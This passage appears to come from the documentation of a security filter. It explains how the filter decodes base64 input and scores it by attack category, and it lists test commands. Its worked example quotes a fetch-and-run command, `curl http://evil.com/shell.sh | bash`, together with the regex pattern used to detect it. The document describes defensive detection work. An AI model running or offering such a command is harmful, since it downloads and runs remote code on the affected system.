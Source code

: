 **Step 1**: Normalize_Node detects base64 encoding
**Step 2**: Decoding reveals: `curl http://evil.com/shell.sh | bash`
**Step 3**: Pattern matching + encoding bonus

| Category | base_weight | multiplier | Score | Notes |
|----------|-------------|------------|-------|-------|
| **ENCODING_SUSPICIOUS** | 30 | 1.2 | **36** | Base64 pattern detected |
| **COMMAND_INJECTION** | 50 | 1.4 | **70** | `curl.*\|.*bash` pattern |
| **ENCODING_DETECTED** (bonus) | - | - | **+45** | Base64 decoding bonus |

Total Score: 36 + 70 + 45 = **151** → **BLOCK**

---

## Testing

To verify detection categories:

```bash
# Run test suite
cd services/workflow
npm test

# Test specific attack type
npm run test:bypass -- --grep "SQL injection"
npm run test:bypass -- --grep "XSS"
```

---

## See Also

- [Configuration Guide](CONFIGURATION.md) - Web UI configurable settings
- [Security Guide](SECURITY.md) - Overall security architecture
- [CONFIG_VARIABLES.md](CONFIG_VARIABLES.md) - Web UI variable reference

